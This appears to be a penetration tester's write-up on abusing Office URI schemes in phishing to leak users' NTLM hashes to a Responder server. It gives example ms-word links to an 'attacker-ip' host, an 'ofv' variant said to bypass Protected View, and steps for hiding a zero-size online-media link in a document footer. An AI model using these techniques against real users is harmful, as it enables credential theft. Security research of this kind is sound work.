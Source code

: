 # INTRODUCTION

I was recently reading up on [Microsoft GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) as part of some testing I was doing related to Microsoft Teams and stumbled upon some interesting Microsoft documentation:
[Office URI Schemes | Microsoft Learn](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes) 

The document outlines how Office URIs can be used to open Office application and files in various ways that only requires a click or two from a user. These methods are valuable for Pentesters and System Administrators to understand as they could be abused to target vulnerable users in phishing scenarios (example below).

Microsoft understands that these URI's could be used in nefarious ways, and they have implemented some protections to prevent documents from being opened from untrusted sources, or warn users that the file they are trying to open is coming from an untrusted source.
# TESTING THE METHODS

## PROTECTIONS
Below are two examples of "unsafe" methods that Microsoft Office tries to prevent.

**UNC PATH**
When trying to access an Office URI link containing a UNC path to a file at an untrusted location, Microsoft Word blocks the file from opening and displays this error message:

`ms-word:ofe|u|//attacker-ip/document.docx`

![images/1.png](images/1.png)

**The file:// URI**
When using the file:// URI, Word *will* open, but the user gets prompted for warnings, and if Responder is running, they will be asked to enter their credentials. For most users, this would be very suspicious behavior:

`ms-word:ofe|u|file://attacker-ip/document.docx`

![images/2.png](images/2.png)

## THE WORK AROUNDS
When using simple http (no certificate required!) Microsoft will open the document with just a banner telling the user that the file is in "PROTECTED VIEW" and that to enable editing, the user just has to click a single button!

`ms-word:ofe|u|http://attacker-ip/job_description.docx`

![images/3.png](images/3.png)
When using this method, the payload word document does not send NTLM hashes to the attacker server, until the user clicks the Enable Editing button. Additionally, the banner might make some users wary if the file they just opened was from an untrusted source.

However, this "PROTECTED VIEW" will only be applied under certain conditions, such as files with a MOTW, and specifically when the file is opened for the purposes of editing.
## BYPASSING PROTECTED VIEW

Until now, all of the links we have used, contain the letters "ofe", this stands for `Open File for Editing`, if we replace this with "ofv" (`Open File for Viewing`) the document is opened in Read Only mode. This bypasses the Protected View in Word and the user hash is sent to the attacker server:

`ms-word:ofv|u|http://attacker-ip/questions_form.docx`

![images/4.png](images/4.png)
And in Responder we have captured some hashes:
![images/5.png](images/5.png)

## ADDITIONAL PROTECTIONS/WARNINGS

Something to consider with these Office URIs is how they are sent to a user. 
A few examples:
 - Microsoft Teams does **not** allow Office URIs as links sent in messages. 
 - Clicking the link in most browsers prompts the user to confirm they want to open Word, Excel, etc.
 - Office products such as Word, Excel, and Outlook do not warn or prompt the user when a link is clicked that opens a document (Thanks Microsoft!).
 - Other products such as PDF viewers vary. Sometimes a warning or prompt is provided, sometimes Office just opens.

# THE PAYLOAD
Okay, you might be wondering "why on earth does opening this document send my NTLM hash to the attacker server?!". This is a valid question, and the answer is that it is due to a "feature" that Microsoft claims they will not fix. *Inserting Online Media.*

This is something I was made aware of when a colleague sent me video of a [talk by Sam Shute](https://www.youtube.com/watch?v=zp5Ds2FYnkU). I highly recommend giving it a watch, in the video he details a method where he inserts media from the web, sets the size to 0x0 pixels and hides it in the footer.
He then saves the document as a .zip file, extracts the contents, and modifies the link to the online image to point to his Responder server with the file:// URI . Save the file, compress the files back into a zip, and rename to .docx.

When the file is opened, MS Word finds the "Online Media" link, and immediately goes out to track down the image using the currently logged in user's account credentials. The user is never told that their credentials were sent out by Word, or that the image failed to load.
